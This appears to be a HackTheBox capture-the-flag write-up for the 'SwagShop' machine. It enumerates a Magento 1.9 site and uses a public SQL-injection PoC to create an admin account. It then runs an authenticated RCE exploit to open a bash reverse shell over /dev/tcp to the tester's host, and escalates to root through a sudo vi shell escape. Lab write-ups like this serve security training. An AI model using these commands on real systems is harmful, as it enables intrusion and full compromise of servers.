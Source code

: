 # HackTheBox
------------------------------------
### IP: 10.129.97.42
### Name: SwagShop
### Difficulty: Easy
--------------------------------------------

![SwagShop.png](../assets/swagshop_assets/SwagShop.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.97.42 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-24 08:56 CDT
Nmap scan report for 10.129.97.42
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Lets add swagshop.htb to `/etc/hosts`.

We can see that the site on port 80 is running Magento.

Running magescan against the target we see it is running version 1.9.0.0:

```
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ php magescan.phar scan:all http://swagshop.htb/
Scanning http://swagshop.htb/...

                       
  Magento Information  
                       

+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

Kicking off some directory fuzzing with:
```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ feroxbuster --url http://swagshop.htb/ -x php txt -q 
```

We find some DB credentials in http://swagshop.htb/app/etc/local.xml

swagshop_xml.png

Continuing through the directory scanning results we find the admin login page at: http://swagshop.htb/index.php/admin

swagshop_admin.png

Looking for Magento exploits I find that Magento Shoplift is vulnerable to SQL injection. We can use the PoC at https://github.com/joren485/Magento-Shoplift-SQLI to create a new user:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_sqli.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

We can now login at http://swagshop.htb/index.php/admin

swagshop_in.png

Thinking back to the exploits I found for Magento, I recall having seen an authenticated RCE exploit. Now that I have valid credentials, this may work.

I find this script on exploitDB: https://www.exploit-db.com/exploits/37811

But this exploit will need a bit of tweaking for our purposes.

First lets add our created username and password, as well as update the install date variable found at http://swagshop.htb/app/etc/local.xml

swagshop_config.png

Trying to run the script with the updates we've made, we get an error with mechanize:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python magento_rce.py http://swagshop.htb/index.php/admin "whoami"
Traceback (most recent call last):
  File "/home/ryan/HTB/SwagShop/magento_rce.py", line 55, in <module>
    br['login[username]'] = username
    ~~^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
    ~~~~~~~~~^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
              ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2445, in _find_control
    raise AmbiguityError("more than one control matching " +
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

Lets comment out line 53:

swagshop_comment.png

### Exploitation

Running the exploit again we get execution:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin "whoami"
www-data
```

Lets use this to get a reverse shell:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.108/443 0>&1'" 
```

swagshop_shell.png

We can then grab the user.txt flag:

swagshop_user_flag.png

### Privilege Escalation

Running `sudo -l` to see if user www-data can run anything with elevated permissions, we see they can run vi on files in `/var/www/html`:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is a super dangerous setting because we can use vi to execute system commands, and if we can execute those commands with sudo, we effectively have a root shell. 

Lets try it by entering `:sh` in our vi session:

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php 
<SNIP>
:sh
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
We can now grab the root.txt flag:

swagshop_root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------


